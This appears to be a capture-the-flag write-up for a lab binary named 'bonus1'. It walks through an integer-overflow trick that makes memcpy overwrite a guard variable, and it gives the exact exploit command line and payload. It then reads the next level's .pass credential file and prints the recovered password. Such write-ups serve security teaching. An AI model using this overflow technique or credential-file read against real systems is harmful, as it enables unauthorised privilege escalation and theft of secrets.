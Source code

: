 Okay so the binary is pretty explicit. We need to write the value `0x574f4c46` in our int. \
But to do so, we need to write after the 40 char buffer and we cannot insert a value superior to 9 or it will terminate. \
As the int we provide is mulitplied by 4 when passed in `memcpy`, we can basically make a value < 0 go above 0 by overflowing. \
We did some math:
```python
a = 44 - 2**32
# -4294967252
print(a / 4)
# -1073741813
```
We want to make our memcpy size 44 so we write 4 bytes after the buffer (which is our int), so we search for the overflowing value as if it was an int to unsigned cast which gives us the huge number which we divide by four so it overflows to 44.

Then we can pass a simple string to execute the shell:
```shell
$ ./bonus1 -1073741813 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
                                                    |_ the value we need the int to be equal to
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
